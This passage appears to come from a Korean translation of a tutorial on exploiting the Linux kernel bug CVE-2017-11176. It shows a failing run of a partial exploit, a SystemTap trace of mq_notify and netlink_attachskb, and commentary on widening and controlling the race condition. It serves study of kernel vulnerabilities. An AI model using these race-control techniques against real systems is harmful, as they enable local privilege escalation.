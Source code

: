 ```bash
$ ./exploit 
-={ CVE-2017-11176 Exploit }=-
netlink socket created = 3
creating unblock thread...
unblocking thread has been created!
get ready to block

<<< we get stuck here during ~5secs >>>

[unblock] unblocking now
mq_notify: Bad file descriptor
exploit failed!

(15981-15981) [SYSCALL] ==>> mq_notify (-1, 0x7fffbd130e30)
(15981-15981) [uland] ==>> copy_from_user ()
(15981-15981) [skb] ==>> alloc_skb (priority=0xd0 size=0x20)
(15981-15981) [uland] ==>> copy_from_user ()
(15981-15981) [skb] ==>> skb_put (skb=0xffff8800302551c0 len=0x20)
(15981-15981) [skb] <<== skb_put = ffff88000a015600
(15981-15981) [vfs] ==>> fget (fd=0x3)
(15981-15981) [vfs] <<== fget = ffff8800314869c0
(15981-15981) [netlink] ==>> netlink_getsockbyfilp (filp=0xffff8800314869c0)
(15981-15981) [netlink] <<== netlink_getsockbyfilp = ffff8800300ef800
(15981-15981) [netlink] ==>> netlink_attachskb (sk=0xffff8800300ef800 skb=0xffff8800302551c0 timeo=0xffff88000b157f40 ssk=0x0)
(15981-15981) [sched] ==>> schedule_timeout (timeout=0x7fffffffffffffff)
(15981-15981) [sched] ==>> schedule ()
(15981-15981) [sched] ==>> deactivate_task (rq=0xffff880003c1f3c0 p=0xffff880031512200 flags=0x1)
(15981-15981) [sched] <<== deactivate_task = 

<<< we get stuck here during ~5secs >>>

(15981-15981) [sched] <<== schedule = 
(15981-15981) [sched] <<== schedule_timeout = 7fffffffffffffff
(15981-15981) [netlink] <<== netlink_attachskb = 1              // <----- returned 1
(15981-15981) [vfs] ==>> fget (fd=0x3)
(15981-15981) [vfs] <<== fget = 0                               // <----- returned 0
(15981-15981) [netlink] ==>> netlink_detachskb (sk=0xffff8800300ef800 skb=0xffff8800302551c0)
(15981-15981) [netlink] <<== netlink_detachskb
(15981-15981) [SYSCALL] <<== mq_notify= -9
```

**노트**: 다른 스레드의 trace는 결과를 명확히 보여주기 위해 제거되었다.

완벽하다! 메인 스레드가 netlink\_attachskb() 안에서 5초간 멈춰 있었고, 다른 스레드를 통해 unblock하였더니 (예상대로) 1을 반환했다!

이번 섹션에서 어떻게 race를 제어하고 기회를 무한정 확장하는지(우리는 5초로 줄였다) 보았다. 그리고 setsockopt()를 이용하여 메인 스레드를 깨우는 법을 보았다. 또한 익스플로잇에서 발생할 수 있는 "race"에 대해 다루고 간단한 방법으로 발생 가능성을 줄이는 방법을 보았다. 마지막으로, 유저 영역의 코드만 이용하여 stap 스크립트로 해결했던 요구 조건(SOCK을 dead로 마킹하는 것) 중 하나를 제거했다. 아직 두 요구 조건을 더 구현해야 한다.

- - -

# <a name='making-fget-fail-on-second-loop'></a>Making *fget()* Fail on Second Loop
